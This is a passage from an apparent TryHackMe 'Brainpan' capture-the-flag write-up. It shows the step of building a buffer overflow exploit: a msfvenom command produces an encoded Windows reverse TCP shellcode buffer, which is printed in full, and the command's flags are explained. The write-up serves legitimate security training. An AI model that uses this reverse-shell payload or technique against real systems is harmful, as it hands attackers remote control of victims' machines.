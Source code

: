 ```highlight

except:
   print("Application crashed")
   sys.exit()
```

#### Create shell code

Nearly finished, the last step is to add our payload that will create a reverse shell to our machine. To do this I used msfvenom.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Brainpan]
└──╼ $msfvenom -p windows/shell_reverse_tcp LHOST=VPN IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xba\xc3\x19\x14\x09\xdb\xc6\xd9\x74\x24\xf4\x58\x2b\xc9\xb1"
"\x52\x83\xe8\xfc\x31\x50\x0e\x03\x93\x17\xf6\xfc\xef\xc0\x74"
"\xfe\x0f\x11\x19\x76\xea\x20\x19\xec\x7f\x12\xa9\x66\x2d\x9f"
"\x42\x2a\xc5\x14\x26\xe3\xea\x9d\x8d\xd5\xc5\x1e\xbd\x26\x44"
"\x9d\xbc\x7a\xa6\x9c\x0e\x8f\xa7\xd9\x73\x62\xf5\xb2\xf8\xd1"
"\xe9\xb7\xb5\xe9\x82\x84\x58\x6a\x77\x5c\x5a\x5b\x26\xd6\x05"
"\x7b\xc9\x3b\x3e\x32\xd1\x58\x7b\x8c\x6a\xaa\xf7\x0f\xba\xe2"
"\xf8\xbc\x83\xca\x0a\xbc\xc4\xed\xf4\xcb\x3c\x0e\x88\xcb\xfb"
"\x6c\x56\x59\x1f\xd6\x1d\xf9\xfb\xe6\xf2\x9c\x88\xe5\xbf\xeb"
"\xd6\xe9\x3e\x3f\x6d\x15\xca\xbe\xa1\x9f\x88\xe4\x65\xfb\x4b"
"\x84\x3c\xa1\x3a\xb9\x5e\x0a\xe2\x1f\x15\xa7\xf7\x2d\x74\xa0"
"\x34\x1c\x86\x30\x53\x17\xf5\x02\xfc\x83\x91\x2e\x75\x0a\x66"
"\x50\xac\xea\xf8\xaf\x4f\x0b\xd1\x6b\x1b\x5b\x49\x5d\x24\x30"
"\x89\x62\xf1\x97\xd9\xcc\xaa\x57\x89\xac\x1a\x30\xc3\x22\x44"
"\x20\xec\xe8\xed\xcb\x17\x7b\xd2\xa4\x16\x3d\xba\xb6\x18\xd0"
"\x66\x3e\xfe\xb8\x86\x16\xa9\x54\x3e\x33\x21\xc4\xbf\xe9\x4c"
"\xc6\x34\x1e\xb1\x89\xbc\x6b\xa1\x7e\x4d\x26\x9b\x29\x52\x9c"
"\xb3\xb6\xc1\x7b\x43\xb0\xf9\xd3\x14\x95\xcc\x2d\xf0\x0b\x76"
"\x84\xe6\xd1\xee\xef\xa2\x0d\xd3\xee\x2b\xc3\x6f\xd5\x3b\x1d"
"\x6f\x51\x6f\xf1\x26\x0f\xd9\xb7\x90\xe1\xb3\x61\x4e\xa8\x53"
"\xf7\xbc\x6b\x25\xf8\xe8\x1d\xc9\x49\x45\x58\xf6\x66\x01\x6c"
"\x8f\x9a\xb1\x93\x5a\x1f\xd1\x71\x4e\x6a\x7a\x2c\x1b\xd7\xe7"
"\xcf\xf6\x14\x1e\x4c\xf2\xe4\xe5\x4c\x77\xe0\xa2\xca\x64\x98"
"\xbb\xbe\x8a\x0f\xbb\xea";
```

msfvenom allows for the reverse shell payload to be created which I can add to the script. 

- -p - Set the payload in this case I wanted a windows reverse shell
- LHOST - Set to the TryHackMe VPN IP
- LPORT - A port on my machine
- EXITFUNC - If applicable it ensures an applications remains stable when the shell is closed
- -f - Set the format of the output to c
- -e - Encoding type to shikata_ga_nai
- -a - Set architecture
- -b - provide a list of the bad characters I found earlier
